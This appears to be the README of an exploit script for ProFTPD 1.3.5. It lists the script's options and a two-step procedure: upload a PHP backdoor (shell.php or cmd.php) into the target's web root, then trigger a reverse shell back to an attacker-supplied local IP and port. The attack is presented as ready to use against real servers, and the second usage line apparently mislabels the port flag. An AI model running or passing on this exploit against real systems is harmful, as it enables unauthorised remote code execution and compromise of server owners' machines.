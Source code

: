# ProFTPD 1.3.5 File Upload to RCE exploit!


    ProFTPd 1.3.5 File Uploader
    Usage: ProFTPD.py [options]

    Options:
      -h, --help             show this help message and exit
      -l LHOST, --lhost=LHOST
                             Local IP Required for Reverse Shell,
      -p LPORT, --lport=LPORT
                             Port Required for Reverse Shell,
      -t TARGET, --target=TARGET
                             Vulnerable Target,
      -d DIRECTORY, --dir=DIRECTORY
                             WebRoot directory to Upload Backdoor,  Default: /var/www/html
      -c COMMAND, --command=COMMAND
                             System Command,
      -f FILE, --file=FILE  
                             Backdoor Name,  Default: shell.php
      -s SHELL, --shell=SHELL
                             ReverShell Name,
                                          
      




STEP 1 - Upload Backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -d '/var/www/html'

STEP 2 - Get Shell! mere commodity! you can always curl your backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -l 172.x.x.x -l 4242

